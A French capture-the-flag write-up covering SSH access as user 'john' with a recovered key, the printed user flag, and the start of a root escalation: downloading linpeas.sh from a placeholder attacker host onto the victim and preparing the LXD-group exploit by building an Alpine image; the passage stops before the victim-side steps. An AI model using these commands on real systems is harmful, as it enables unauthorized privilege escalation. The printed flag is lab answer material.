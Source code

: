 "john, please add some actual content to the site! lorem ipsum is horrible to look at."

Essayons de nous connecter au service SSH avec john et let's gooo ça marche

`ssh john@VICTIME_IP -i id_rsa`

Et on a notre premier flag :)

[![Capture-d-cran-2025-09-25-093711.png](https://i.postimg.cc/L82ZMV5n/Capture-d-cran-2025-09-25-093711.png)](https://postimg.cc/nCSL4BvJ)

*What is the user flag?* : **a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e**
## **Seconde question** : *What is the root flag?*
OK commencons notre aventure vers les droits **root**

Allons dans `/tmp` et upload le bien aimé **linpeas.sh**

Pour ça on démarre un serveur http sur notre machine avec linpeas.sh au même endroit : `python3 -m http.server`

De retour sur la machine de la victime, on télécharge le fichier avec `wget http://ATTAQUANT_IP:8000/linpeas.sh .` (Et je ferme le serveur http)

[![Capture-d-cran-2025-09-25-094557.png](https://i.postimg.cc/htzNcVYR/Capture-d-cran-2025-09-25-094557.png)](https://postimg.cc/4YGW1HZW)

Et maintenant on execute linpeas : `sh linpeas.sh` et on regarde le résultat

D'abord je vais regarder dans les logs

<img width="1303" height="1152" alt="image" src="https://github.com/user-attachments/assets/70526dc7-4ede-4d58-814d-67adb6fd80db" />

Et après 30-40min àà chercher dans le vide `/var/log` j'ai rien trouvé

<img width="1150" height="250" alt="image" src="https://github.com/user-attachments/assets/b4e6a0b9-41ae-40aa-bc7e-ba31f2aef2b4" />

Bon reprennons du recul et regardons ce que linpeas nous dit et j'étais tellement impatient que je suis passé à côté du principal moyen pour devenir root...

<img width="845" height="66" alt="image" src="https://github.com/user-attachments/assets/9412fc47-c82e-4d59-b84e-9f2052ad1739" />

Ce que nous dit linpeas : "Yooo, John c'est un membre du groupe root et lxd ". Mmmh dommage, j'ai pas le mdp de John. Mais je sais pas ce que c'est le truc lxd donc je regarde sur google

Et après une recherche, j'apprends que LXD est **un outil de gestion des conteneurs du système d’exploitation Linux**. J'ai aussi vu un moyen d'escalade de privilege avec cette [chose](https://www.exploit-db.com/exploits/46978)

Je suis un gentil garçon et je suis les instructions du POC

**Sur ma machine :**

`wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine`

`bash build-alpine`

`python3 -m http.server`

**Sur la machine de la victime :**
